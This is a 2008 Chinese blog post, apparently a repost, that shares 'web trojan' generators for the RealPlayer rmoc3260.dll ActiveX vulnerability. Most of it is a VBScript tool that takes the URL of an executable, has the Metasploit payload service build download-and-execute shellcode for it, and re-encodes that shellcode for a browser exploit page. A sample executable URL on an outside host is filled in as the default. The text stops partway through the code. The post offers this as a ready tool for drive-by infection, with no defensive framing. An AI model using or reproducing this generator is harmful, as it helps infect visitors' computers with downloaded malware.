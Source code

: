 ```yaml
---
title: 3种版本的Real Player rmoc3260.dll ActiveX Control 网马生成器
description: 夜火：最近RealPlayerrmoc3260.dllActiveXControl的漏洞闹的很火，我一直没转相关的文章，今天在鬼仔那看到了相关的网马生成器，有2个网马生成器是lcx那发的，最后一个图形界面的是丰初写的网马生成器（带测试动画）
date: 2008-04-04 08:36:24
category: 漏洞信息
tags: ['0day', 'exploit', 'ActiveX', '网马', '生成器']
post_id: 437
alias: 3-kinds-of-Real-Player-rmoc3260.dll-ActiveX-Control
ViewNums: 5659
---
```


[夜火](/blog/)最近**Real Player rmoc3260.dll ActiveX Control** 的[漏洞](/tags/%E6%BC%8F%E6%B4%9E%E4%BF%A1%E6%81%AF)闹的很火，我一直没转相关的文章，今天在[鬼仔](http://www.huaidan.org/blog/)那看到了相关的[网马](/tags/%E7%BD%91%E9%A9%AC)生成器，有2个网马[生成器](/tags/%E7%94%9F%E6%88%90%E5%99%A8)是lcx那发的，最后一个图形界面的是丰初写的网马生成器（带测试动画）

---------------------lcx那里发的---------------------------------------
作者：lcx
来源：vbs小铺

代码如下：

'以下代码保存成vbs，双击即可

On Error Resume Next
Exeurl = InputBox( "请输入exe的地址：", "输入", "http://www.haiyangtop.net/333.exe" )
url = "http://metasploit.com:55555/PAYLOADS?parent=GLOB%280x2b94a2879c50%29&MODULE=win32_downloadexec&MODE=GENERATE&OPT_URL="&URLEncoding(Exeurl)&"&MaxSize=&BadChars=0x00+&ENCODER=Msf%3A%3AEncoder%3A%3AAlpha2&ACTION=Generate+Payload"
Body = getHTTPPage(url)
Set Re = New RegExp
Re.Pattern = "($shellcode =[sS]+</div></pre>)"
Set Matches = Re.Execute(Body)
If Matches.Count>0 Then Body = Matches(0).value
code=Trim(Replace(Replace(replace(Replace(Replace(Replace(Replace(Body,"$shellcode =",""),Chr(34),""),Chr(13),""),";",""),"</div></pre>",""),Chr(10),""),".",""))

function replaceregex(str)
set regex=new regExp
regex.pattern="\x(..)\x(..)"
regex.IgnoreCase=true
regex.global=true
matches=regex.replace(str,"%u$2$1")
replaceregex=matches
end Function

Function getHTTPPage(Path)
 t = GetBody(Path)
 getHTTPPage = BytesToBstr(t, "GB2312")
End Function

Function GetBody(url)
 On Error Resume Next
 Set Retrieval = CreateObject("Microsoft.XMLHTTP")
 With Retrieval
 .Open "Get", url, False, "", ""
 .Send
 GetBody = .ResponseBody
 End With
 Set Retrieval = Nothing
End Function
